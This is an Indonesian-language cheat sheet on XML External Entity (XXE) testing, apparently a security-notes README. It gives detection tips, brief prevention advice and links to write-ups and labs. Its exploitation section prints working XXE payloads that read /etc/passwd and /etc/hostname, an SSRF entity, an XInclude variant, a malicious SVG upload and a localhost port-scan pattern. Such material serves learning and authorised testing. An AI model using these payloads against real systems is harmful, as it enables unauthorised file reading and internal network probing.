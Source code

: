 # XXE :kiss:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/90031186-25536580-dce7-11ea-9da9-dcc9b4473bf7.jpg" width="500"></p>

Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
## Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Switch `content-type` menjadi `text/xml` atau `application/xml` lalu analisa respon errornya
  - Gunakan Burp Collaborator untuk detect blind XXE
  - Cari API endpoint

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/) - Blind XXE explanation
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s) - Simple XXE explanation
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/) - Blind XXE writeup 
  - [Vulnhub XXE Lab](https://www.vulnhub.com/entry/xxe-lab-1,254/) - by Haboob team

